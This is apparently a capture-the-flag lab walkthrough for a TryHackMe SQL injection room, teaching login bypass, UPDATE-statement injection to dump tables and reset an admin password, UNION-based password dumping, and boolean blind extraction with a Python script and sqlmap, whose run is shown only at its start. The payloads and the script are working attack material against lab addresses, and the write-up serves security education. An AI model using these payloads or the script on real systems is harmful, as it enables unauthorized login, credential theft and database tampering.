# SQL Injection Lab

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Walkthrough
Difficulty: Easy
Tags: Linux, Web
Subscription type: Free
Description: 
Understand how SQL injection attacks work and how to exploit this vulnerability.
```

Room link: [https://tryhackme.com/room/sqlilab](https://tryhackme.com/room/sqlilab)

## Solution

### Task 1: Introduction

This room is meant as an introduction to SQL injection and demonstrates various SQL injection attacks. It is not meant as a way to learn the SQL language itself. Some previous knowledge of the SQL language is highly recommended.

The web application can be found at: `http://10.64.175.172:5000`

**NB**: Please allow a minimum of five minutes for it to deploy.

It is possible to display the SQL queries performed by the application on the challenges by enabling "**Show Query**" in the top-right menu on `http://10.64.175.172:5000`. It is also possible to display tutorial for the challenges by enabling "**Guidance**".

All the scripts mentioned in the tasks can be viewed and downloaded by visiting the "**Downloads**" page in the top-left corner on the landing page or visiting `http://10.64.175.172:5000/downloads/`.

### Task 2: Introduction to SQL Injection: Part 1

<iframe width="1232" height="560" src="https://www.youtube.com/embed/ciNHn38EyRc" title="Running an SQL Injection Attack - Computerphile" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

SQL injection is a technique through which attackers can execute their own malicious SQL statements generally referred to as a malicious payload. Through the malicious SQL statements, attackers can steal information from the victim’s database; even worse, they may be able to make changes to the database. Our employee management web application has SQL injection vulnerabilities, which mimic the mistakes frequently made by developers.

Applications will often need dynamic SQL queries to be able to display content based on different conditions set by the user. To allow for dynamic SQL queries, developers often concatenate user input directly into the SQL statement. Without checks on the received input, string concatenation becomes the most common mistake that leads to SQL injection vulnerability. Without input sanitization, the user can make the database interpret the user input as a SQL statement instead of as data. In other words, the attacker must have access to a parameter that they can control, which goes into the SQL statement. With control of a parameter, the attacker can inject a malicious query, which will be executed by the database. If the application does not sanitize the given input from the attacker-controlled parameter, the query will be vulnerable to SQL injection attack.

The following PHP code demonstrates a dynamic SQL query in a login from. The user and password variables from the POST request is concatenated directly into the SQL statement.

```php
$query = "SELECT * FROM users WHERE username='" + $_POST["user"] + "' AND password= '" + $_POST["password"]$ + '";"
```

If the attacker supplies the value `' OR 1=1-- -` inside the name parameter, the query might return more than one user. Most applications will process the first user returned, meaning that the attacker can exploit this and log in as the first user the query returned. The double-dash (`--`) sequence is a comment indicator in SQL and causes the rest of the query to be commented out. In SQL, a string is enclosed within either a single quote (') or a double quote ("). The single quote (') in the input is used to close the string literal. If the attacker enters `' OR 1=1-- -` in the name parameter and leaves the password blank, the query above will result in the following SQL statement.

```sql
SELECT * FROM users WHERE username = '' OR 1=1-- -' AND password = ''
```

If the database executes the SQL statement above, all the users in the users table are returned. Consequently, the attacker bypasses the application's authentication mechanism and is logged in as the first user returned by the query.

The reason for using `-- -` instead of `--` is primarily because of how MySQL handles the double-dash comment style.

From a `--` sequence to the end of the line. In MySQL, the `--` (double-dash) comment style requires the second dash to be followed by at least one whitespace or control character (such as a space, tab, newline, and so on). This syntax differs slightly from standard SQL comment syntax, as discussed in Section 1.7.2.4, “'--' as the Start of a Comment”. ([dev.mysql.com](https://dev.mysql.com/doc/refman/8.0/en/comments.html))

The safest solution for inline SQL comment is to use `--<space><any character>` such as `-- -` because if it is URL-encoded into `--%20-` it will still be decoded as `-- -`.

For more information, see: [https://blog.raw.pm/en/sql-injection-mysql-comment/](https://blog.raw.pm/en/sql-injection-mysql-comment/)

#### SQL Injection 1: Input Box Non-String

When a user logs in, the application performs the following query:

```sql
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=10 AND password = 'ce5ca67...'
```

When logging in, the user supplies input to the **profileID** parameter. For this challenge, the parameter accepts an integer, as can be seen here:

```text
profileID=10
```

Since there is no input sanitization, it is possible to bypass the login by using any True condition such as the one below as the **ProfileID**

```text
1 or 1=1-- -
```

Bypass the login and retrieve the flag.

#### SQL Injection 2: Input Box String

This challenge uses the same query as in the previous challenge. However, the parameter expects a string instead of an integer, as can be seen here:

```text
profileID='10'
```

Since it expects a string, we need to modify our payload to bypass the login slightly. The following line will let us in:

```text
1' or '1'='1'-- -
```

Bypass the login and retrieve the flag.

#### SQL Injection 3 and 4: URL and POST Injection

Here, the SQL query is the same as the previous one:

```sql
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='10' AND password='ce5ca67...'
```

But in this case, the malicious user input cannot be injected directly into the application via the login form because some client-side controls have been implemented:

```javascript
functionvalidateform() {
    var profileID = document.inputForm.profileID.value;
    var password = document.inputForm.password.value;

    if (/^[a-zA-Z0-9]*$/.test(profileID) == false || /^[a-zA-Z0-9]*$/.test(password) == false) {
alert("The input fields cannot contain special characters");
        return false;
    }
    if (profileID == null || password == null) {
alert("The input fields cannot be empty.");
        return false;
    }
}
```

The JavaScript code above requires that both the profileID and the password only contains characters between a-z, A-Z, and 0-9. Client-side controls are only there to improve the user experience and is in no way a security feature as the user has full control over the client and the data it submits. For example, a proxy tool such as Burp Suite can be used to bypass the client side JavaScript validation ([https://portswigger.net/support/using-burp-to-bypass-client-side-javascript-validation](https://portswigger.net/support/using-burp-to-bypass-client-side-javascript-validation)).

**SQL Injection 3: URL Injection**

This challenge uses a GET request when submitting the login form, as seen here:


The login and the client-side validation can then easily be bypassed by going directly to this URL:

`http://10.64.175.172:5000/sesqli3/login?profileID=-1' or 1=1-- -&password=a`

The browser will automatically urlencode this for us. Urlencoding is needed since the HTTP protocol does not support all characters in the request. When urlencoded, the URL looks as follows:

`http://10.64.175.172:5000/sesqli3/login?profileID=-1%27%20or%201=1--%20-&password=a`

The %27 becomes the single quote (') character and %20 becomes a blank space.

#### SQL Injection 4: POST Injection

When submitting the login form for this challenge, it uses the HTTP POST method. It is possible to either remove/disable the JavaScript validating the login form or submit a valid request and intercept it with a proxy tool such as Burp Suite and modify it:


For information on how Burp Suite works, visit the [Burp Suite](https://tryhackme.com/module/learn-burp-suite) module.

---------------------------------------------------------------------------------------

#### What is the flag for SQL Injection 1: Input Box Non-String?

Login with

Usermname: `1 or 1=1-- -`
Password: `whatever`

to get the flag.

Answer: `THM{<REDACTED>}`

#### What is the flag for SQL Injection 2: Input Box String?

Login with

Usermname: `1' or '1'='1'-- -`
Password: `whatever`

to get the flag.

Answer: `THM{<REDACTED>}`

#### What is the flag for SQL Injection 3: URL Injection?

Trying to login with

Usermname: `1' or 1=1-- -`
Password: `whatever`

results in an error message of `The input fields cannot contain special characters`.

But we can bypass this check by manipulating the URL directly.

Use the URL `http://10.64.175.172:5000/sesqli3/login?profileID=-1' or 1=1-- -&password=whatever` to login and get the flag.

Answer: `THM{<REDACTED>}`

#### What is the flag for SQL Injection 4: POST Injection?

Make sure Burp Suite is configured to act as your browser's proxy and set Intercept to On.

Try to login with the credentials `test:test` and when the request is captured change to POST data to:

```text
profileID=1' or 1=1-- -&password=test
```

Then Forward the request and set Intercept to Off to get the flag.

Answer: `THM{<REDACTED>}`

### Task 3: Introduction to SQL Injection: Part 2

#### SQL Injection Attack on an UPDATE Statement

If a SQL injection occurs on an UPDATE statement, the damage can be much more severe as it allows one to change records within the database. In the employee management application, there is an edit profile page as depicted in the following figure.


This edit page allows the employees to update their information, but they do not have access to all the available fields, and the user can only change their information. If the form is vulnerable to SQL injection, an attacker can bypass the implemented logic and update fields they are not supposed to, or for other users.

We will now enumerate the database via the UPDATE statement on the profile page. We will assume we have no prior knowledge of the database. By looking at the web page's source code, we can identify potential column names by looking at the name attribute. The columns don't necessarily need to be named this, but there is a good chance of it, and column names such as "email" and "password" are not uncommon and can easily be guessed.


To confirm that the form is vulnerable and that we have working column names, we can try to inject something similar to the code below into the **nickName** and **email** field:

```text
asd',nickName='test',email='hacked
```

When injecting the malicious payload into the **nickName** field, only the nickName is updated. When injected into the **email** field, both fields are updated:


The first test confirmed that the application is vulnerable and that we have the correct column names. If we had the wrong column names, then non of the fields would have been updated. Since both fields are updated after injecting the malicious payload, the original SQL statement likely looks something similar to the following code:

```sql
UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>
```

With this knowledge, we can try to identify what database is in use. There are a few ways to do this, but the easiest way is to ask the database to identify itself. The following queries can be used to identify MySQL, MSSQL, Oracle, and SQLite:

```text
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
```

Injecting the line with "sqlite_version()" into the nickName field shows that we are dealing with SQLite and that the version number is 3.27.2:



Knowing what database we are dealing with makes it easier to understand how to construct our malicious queries. We can proceed to enumerate the database by extracting all the tables. In the code below, we perform a subquery to fetch all the tables from database and place them into the nickName field. The subquery is enclosed inside parantheses. The [group_concat()](https://sqlite.org/lang_aggfunc.html#groupconcat) function is used to dump all the tables simultaneously.

> "The group_concat() function returns a string which is the concatenation of all non-NULL values of X. If parameter Y is present then it is used as the separator between instances of X.
> A comma (",") is used as the separator if Y is omitted. The order of the concatenated elements is arbitrary."

```text
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
```

By injecting the code above, we can see that the only table in the database is called "usertable":



We can then continue by extract all the column names from the usertable:

```text
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
```

And as can be seen below, the usertable contains the columns: UID, name, profileID, salary, passportNr, email, nickName, and password:



By knowing the names of the columns, we can extract the data we want from the database. For example, the query below will extract profileID, name, and passwords from usertable. The subquery is using the [group_concat()](https://sqlite.org/lang_aggfunc.html#groupconcat) function to dump all the information simultaneously, and the `||` operator is "concatenate" - it joins together the strings of its operands ([sqlite.org](https://sqlite.org/lang_expr.html#operators)).

```text
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='
```



After having dumped the data from the database, we can see that the password is hashed. This means that we will need to identify the correct hash type used if we want to update the password for a user. Using a hash identifier such as hash-identifier, we can identify the hash as SHA256:



There are multiple ways of generating a sha256 hash. For example, we can use [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/):



We can then update the password for the Admin user with the following code:

```text
', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -
```

**Task**

Log in to the "SQL Injection 5: UPDATE Statement" challenge and exploit the vulnerable profile page to find the flag. The credentials that can be used are:

- **profileID**: 10
- **password**: toor

The same enumeration demonstrated for finding tables and column names must be done here since the flag is stored inside another table.

---------------------------------------------------------------------------------------

#### What is the flag for SQL Injection 5: UPDATE Statement?

Login with

- **profileID**: 10
- **password**: toor

then click on the `Edit Profile` link in the upper left corner.

We enumerate the table names by providing the following information to the new profile information:

**Nick Name**: `<blank>`
**E-mail**: `',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='`
**Password**: `<blank>`

There are to tables:

- usertable
- secrets

Next, we enumerate the column names from the `secrets` table:

**Nick Name**: `<blank>`
**E-mail**: `',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='`
**Password**: `<blank>`

The result is: `CREATE TABLE secrets ( id integer primary key, author integer not null, secret text not null )`

Then we query the `secrets` table with the wanted information:

**Nick Name**: `<blank>`
**E-mail**: `',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") from secrets),email='`
**Password**: `<blank>`

The result is (formated for easier readability):

```text
1,1,Lorem ipsum dolor sit amet, consectetur adipiscing elit. Integer a.:,
2,3,Donec viverra consequat quam, ut iaculis mi varius a. Phasellus.:,
3,1,Aliquam vestibulum massa justo, in vulputate velit ultrices ac. Donec.:,
4,5,Etiam feugiat elit at nisi pellentesque vulputate. Nunc euismod nulla.:,
5,6,THM{<REDACTED>}:
```

Answer: `THM{<REDACTED>}`

### Task 4: Vulnerable Startup: Broken Authentication

#### Goal

The goal of this challenge is to find a way to bypass the authentication to retrieve the flag.

#### Description

From the landing page on `http://10.64.175.172:5000`, go to Broken Authentication under Track: Vulnerable Startup (`http://10.64.175.172:5000/challenge1/`).



#### Task

Bypass the login and retrieve the flag.

---------------------------------------------------------------------------------------

#### What is the flag for this challenge?

Login with

**Usermname**: `1' or 1=1-- -`
**Password**: `whatever`

to get the flag.

Answer: `THM{<REDACTED>}`

### Task 5: Vulnerable Startup: Broken Authentication 2

#### Goal

This challenge builds upon the previous challenge. Here, the goal is to find a way to dump all the passwords in the database to retrieve the flag without using blind injection.

#### Description

The login form is still vulnerable to SQL injection, and it is possible to bypass the login by using `' OR 1=1-- -` as a **username**.

Before dumping all the passwords, we need to identify places where results from the login query is returned within the application. After logging in, the name of the currently logged-on user is displayed in the top right corner, so it might be possible to dump the data there, as seen here:



Data from the query could also be stored in the session cookie. It is possible to extract the session cookie by opening developer tools in the browser, which can be done by pressing `F12`. Then navigate to Storage and copy the value of the session cookie, as seen here:



Then it is possible to decode the cookie at [https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi) or via a custom script. A script to decode the cookie can be downloaded inside the VM by going to `http://10.64.175.172:5000/download/decode_cookie.py`.

After having logged in with `' OR 1=1-- -` as **username**, the decoded cookie can be seen below, and it is clear that the user id and username from the login query are placed inside it.

```json
{
    "challenge2_user_id": 1,
    "challenge2_username": "admin"
}
```

It is possible to dump the passwords by using a UNION based SQL injection. There are two key requirements that must be met for a UNION based injection to work:

- The number of columns in the injected query must be the same as in the original query
- The data types for each column must match the corresponding type

When logging in to the application, it executed the query below. From the SQL statement, we can see that it is retrieving two columns; **id** and **username**.

```sql
SELECT id, username FROM users WHERE username = '" + username + "' AND password = '" + password + "'
```

Without knowing the number of columns upfront, the attacker must first enumerate the number of columns by systematically injecting queries with different numbers of columns until it is successful. For example:

```text
1' UNION SELECT NULL-- -
1' UNION SELECT NULL, NULL-- -
1' UNION SELECT NULL, NULL, NULL-- -
etc.
```

In this case, successful means that the application will successfully login when the correct number of columns is injected. In other cases, if error messages are enabled, a warning might be displayed saying "SELECTs to the left and right of UNION do not have the same number of result columns" when incorrect number of columns are injected.

By using `' UNION SELECT 1,2-- -` as **username**, we match the number of columns in the original SQL query, and the application lets us in. After logging in, we can see that the username is replaced with the integer 2, which is what we used as column two in the injected query.



The same goes for the username in the session cookie. By decoding it, we can see that the username has been replaced with the same value as above.

```json
{
    "challenge2_user_id": 1,
    "challenge2_username": 2
}
```

Enumerate the database to find tables and columns, as we did under Task 2 Introduction to SQL Injection. A cheat sheet such as [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) can be helpful for this. The challenge's objective was to dump all the passwords to get the flag, so in this case, we will guess that the column name is *password* and that the table name is *users*. With this logic, it is possible to dump the passwords with the following code:

```text
' UNION SELECT 1, password from users-- -
```

However, the previous statement will only return **one** password. The [group_concat()](https://sqlite.org/lang_aggfunc.html#groupconcat) function can help achieve the goal of dumping all the passwords simultaneously.

By injecting the following code into the username field:

```text
' UNION SELECT 1,group_concat(password) FROM users-- -
```


The passwords can also be retrieved by decoding the Flask session cookie:

```json
{
    "challenge2_user_id": 1,
    "challenge2_username": "rcLYWHCxeGUsA9tH3GNV,asd,Summer2019!,345m3io4hj3,THM{AuTh2},viking123"
}
```

#### Task

Exploit the vulnerable login form and retrieve the flag.

---------------------------------------------------------------------------------------

#### What is the flag for this challenge?

Login with

**Usermname**: `' UNION SELECT 1,group_concat(password) FROM users-- -`
**Password**: `whatever`

and check the `Logged in as` username in the upper right corner for the flag.

Answer: `THM{<REDACTED>}`

### Task 6: Vulnerable Startup: Broken Authentication 3 (Blind Injection)

#### Goal

This challenge has the same vulnerability as the previous one. However, it is no longer possible to extract data from the Flask session cookie or via the username display. The login form still has the same vulnerability, but this time the goal is to abuse the login form with blind SQL injection to extract the admin's password.

#### Description

Boolean-based blind SQL injection will be used to extract the password. Blind injections are tedious and time-consuming to do manually, so the plan is to build a script to extract the password character by character. Before making a script to automate the injection, it is vital to understand how the injection works. The idea is to send a SQL query asking true or false questions for each character in the password. The application's response will be analyzed to understand whether the database returned true or false. In this case, the application will let us in if the response is successful, or it will stay on the login page saying, "Invalid username or password" in the case it returns false, as seen in the image below.



As previously stated, we will want to send boolean questions to the database for each character in the password, asking the database whether we have guessed the correct character or not. To achieve this, we will need a way to control which character we are at and increment it every time we have guessed the correct character at the current position. SQLite's [substr](https://sqlite.org/lang_corefunc.html#substr) function can help us achieve this functionality.

> "The SQLite substr function returns a substring from a string starting at a specified position with a predefined length." ([SQLite Tutorial](https://www.sqlitetutorial.net/sqlite-functions/sqlite-substr/))

```text
SUBSTR( string, <start>, <length>)
```

Below is an example of [substr](https://sqlite.org/lang_corefunc.html#substr) in action - the character after the equal (=) sign demonstrates the substring returned.

```text
-- Changing start
SUBSTR("THM{Blind}", 1,1) = T
SUBSTR("THM{Blind}", 2,1) = H
SUBSTR("THM{Blind}", 3,1) = M

-- Changing length
SUBSTR("THM{Blind}", 1,3) = THM
```

The next step will be to enter the admin's password as a string into the substr function. This can be achieved with the following query:

```sql
(SELECT password FROM users LIMIT 0,1)
```

The [LIMIT](https://sqlite.org/lang_select.html#limitoffset) clause is used to limit the amount of data returned by the SELECT statement. The first number, 0, is the offset and the second integer is the limit:

```text
LIMIT <OFFSET>, <LIMIT>
```

Below are a few examples of the [LIMIT](https://sqlite.org/lang_select.html#limitoffset) clause in action. The table below represents the user table.

```text
sqlite> SELECT password FROM users LIMIT 0,1
THM{Blind}
sqlite> SELECT password FROM users LIMIT 1,1
Summer2019!
sqlite> SELECT password FROM users LIMIT 0,2
THM{Blind}
Summer2019!
```

|User table|
|----|
|THM{Blind}|
|Summer2019!|
|Viking123|

The SQL query to return the first character of the admin's password can be seen here:

```text
SUBSTR((SELECT password FROM users LIMIT 0,1),1,1)
```

Now we will need a way to compare the first character of the password with our guessed value. Comparing the characters are easy, and we could do it as follows:

```text
SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = 'T'
```

However, whether this approach works or not will be depending on how the application handles the inputs. The application will convert the username to lowercase for this challenge, which breaks the mentioned approach since capital T is not the same as lowercase t. The hex representation of ASCII T is 0x54 and 0x74 for lowercase t. To deal with this, we can input our character as hex representation via the substitution type [X](https://www.sqlite.org/printf.html#substitution_types) and then use SQLite's [CAST](https://sqlite.org/lang_expr.html#castexpr) expression to convert the value to the datatype the database expects.

> "x,X: The argument is an integer which is displayed in hexadecimal. Lower-case hexadecimal is used for %x and upper-case is used for %X" - ([sqlite.org](https://www.sqlite.org/printf.html#substitution_types))

This means that we can input T as X'54'. To convert the value to SQLite's Text type, we can use the CAST expression as follows: CAST(X'54' as Text). Our final query now looks as follows:

```text
SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)
```

Before using the query we have built, we will need to make it fit in with the original query. Our query will be placed in the username field. We can close the username parameter by adding a single quote (') and then append an AND operator to add our condition to it. Then append two dashes (`--`) to comment out the password check at the end of the query. With this done, our malicious query look as follows:

```text
admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -
```

When this is injected into the username field, the final query executed by the database will be:

```sql
SELECT id, username FROM users WHERE username = 'admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)
```

If the application responds with a 302 redirect, then we have found the password's first character. To get the entire password, the attacker must inject multiple tests for each character in the password. Testing every single character is tedious and is more easily achieved with a script. One easy solution is to loop over every possible ASCII character and compare it with the database's character. The mentioned method generates a lot of traffic toward the target and is not the most efficient method. An example script is provided inside the machine and can be view and downloaded by going to `http://10.64.183.154:5000/view/challenge3/challenge3-exploit.py`; note that it will be necessary to **change the password length** with the password_len variable. The length of the password can be found by asking the database. For example, in the query below, we ask the database if the length of the password equals 37:

```text
admin' AND length((SELECT password from users where username='admin'))==37-- -
```

Also, the script requires an unnecessary amount of requests. An extra challenge could be to build a more efficient tool to retrieve the password.

```python
#!/usr/bin/python3

import sys
import requests
import string

def send_p(url, query):
    payload = {"username": query, "password": "admin"}
    try:
        r = requests.post(url, data=payload, timeout=3)
    except requests.exceptions.ConnectTimeout:
        print("[!] ConnectionTimeout: Try to adjust the timeout time")
        sys.exit(1)
    return r.text

def main(addr):
    url = f"http://{addr}/challenge3/login"
    flag = ""
    password_len = 38
    # Not the most efficient way of doing it...
    for i in range(1, password_len):
        for c in string.ascii_lowercase + string.ascii_uppercase + string.digits + "{}":
            # Convert char to hex and remove "0x"
            h = hex(ord(c))[2:]
            query = "admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1)," \
                f"{i},1)=CAST(X'{h}' AS TEXT)--"

            resp = send_p(url, query)
            if not "Invalid" in resp:
                flag += c
                print(flag)
    print(f"[+] FLAG: {flag}")

if __name__ == "__main__":
    if len(sys.argv) == 1:
        print(f"Usage: {sys.argv[0]} MACHINE_IP:PORT")
        sys.exit(0)
    main(sys.argv[1])
```

An alternative way to solve this challenge is by using a tool such as sqlmap, which is an open source tool that automates the process of detecting and exploiting SQL injection flaws. The following command can be used to exploit the vulnerability with sqlmap:

```bash
sqlmap -u http://10.64.183.154:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump
```



#### Task

Exploit the vulnerable login form and retrieve the flag.

---------------------------------------------------------------------------------------

#### What is the flag for this challenge?

Let's use sqlmap to solve this challenge

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/SQL_Injection_Lab]
└─$ sqlmap -u http://10.64.183.154:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.8.10#dev}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:51:54 /2025-12-26/

[08:51:55] [INFO] testing connection to the target URL
[08:51:55] [INFO] checking if the target is protected by some kind of WAF/IPS
[08:51:55] [INFO] testing if the target URL content is stable
[08:51:56] [INFO] target URL content is stable
[08:51:56] [INFO] testing if POST parameter 'username' is dynamic
[08:51:56] [WARNING] POST parameter 'username' does not appear to be dynamic
[08:51:56] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
